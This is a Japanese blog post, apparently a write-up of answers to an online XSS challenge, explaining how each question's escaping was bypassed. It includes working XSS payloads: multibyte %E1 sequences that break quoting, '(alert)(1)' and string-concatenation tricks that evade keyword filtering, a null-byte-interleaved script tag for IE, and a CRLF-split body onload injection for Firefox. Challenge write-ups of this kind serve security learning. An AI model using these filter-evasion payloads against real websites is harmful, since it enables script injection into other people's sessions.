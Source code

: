 <p>%E1が肝みたいなんだけど、よくわかんないっす。</p>
<p>あとは、「alert(1)」が「ale#t(1)」に変えられるため、「(alert)(1)」にしてエスケープを回避する。<br />
img要素のonloadとかonerrorを使ったり、シングルクオートはエスケープされないことを利用して、「window&#91;&#8217;a&#8217;+&#8217;lert&#8217;](1)」にしても通ります。（<a href="http://twitter.com/hasegawayosuke/status/22147403336">by Yosuke HASEGAWA</a>）</p>
<h3>追記</h3>
<p><a href="http://b.hatena.ne.jp/efcl/20100825#bookmark-24334048">id:efclさんのブコメにて</a></p>
<blockquote><p>
1は%E1を使ったタグ破壊。 (%E1～%EFあたりを使う)<br />
 %E1&#8243;>%E1&#8243;(alert)(1);//%E1&#8243;</p>
<p><a href="http://www.akiyan.com/blog/archives/2006/03/xsscssebcss.html">http://www.akiyan.com/blog/archives/2006/03/xsscssebcss.html</a></p>
<p>マルチバイト文字列の仕様を突いて半端な文字列を送信しクオート文字を無効化(escape)する
</p></blockquote>
<h2>2問目の回答例</h2>
<p>ヒントをもらうと一番簡単に終わった問題。</p>
<p>動作ブラウザ：IE</p>
<p><a href="http://utf-8.jp/cgi-bin/xss2/search.cgi?q=%22%3E%00%3C%00s%00c%00r%00i%00p%00t%00%3E%00a%00l%00e%00r%00t%00%28%001%00%29%00%3C%00%2F%00s%00c%00r%00i%00p%00t%00%3E%00">http://utf-8.jp/cgi-bin/xss2/search.cgi?q=%22%3E%00%3C%00s%00c%00r%00i%00p%00t%00%3E%00a%00l%00e%00r%00t%00%28%001%00%29%00%3C%00%2F%00s%00c%00r%00i%00p%00t%00%3E%00</a></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>20
</pre></td><td class="code"><pre class="html4strict" style="font-family:monospace;"><span style="color: #009900;">&lt;<span style="color: #000000; font-weight: bold;">input</span> <span style="color: #000066;">type</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;text&quot;</span> <span style="color: #000066;">id</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">name</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">size</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;&quot;</span> <span style="color: #000066;">value</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;【ここに検索ワード！】&quot;</span> <span style="color: #66cc66;">/</span>&gt;</span></pre></td></tr></table></div>

<p>↓</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>20
</pre></td><td class="code"><pre class="html4strict" style="font-family:monospace;"><span style="color: #009900;">&lt;<span style="color: #000000; font-weight: bold;">input</span> <span style="color: #000066;">type</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;text&quot;</span> <span style="color: #000066;">id</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">name</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">size</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;&quot;</span> <span style="color: #000066;">value</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;&quot;</span>&gt;&lt;<span style="color: #000000; font-weight: bold;">script</span>&gt;</span>alert(1)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span><span style="color: #000000; font-weight: bold;">script</span>&gt;</span>&quot; /&gt;</pre></td></tr></table></div>

<p>アクセスすると、<strong>IE</strong>で動作する。</p>
<p>文字をいろいろエスケープしてるようなので、%00を文字と文字の間に挟み、エスケープを回避する。<br />
IEだと%00は無視されるので実行される。</p>
<h2>3問目の回答例</h2>
<p>動作ブラウザ：Firefox</p>
<p><a href="http://utf-8.jp/cgi-bin/xss3/search.cgi?q=%3C%2Fscript%0D%0A%3Cbody%0D%0Aonload%3Dalert%281%29%0D%0A">http://utf-8.jp/cgi-bin/xss3/search.cgi?q=%3C%2Fscript%0D%0A%3Cbody%0D%0Aonload%3Dalert%281%29%0D%0A</a></p>
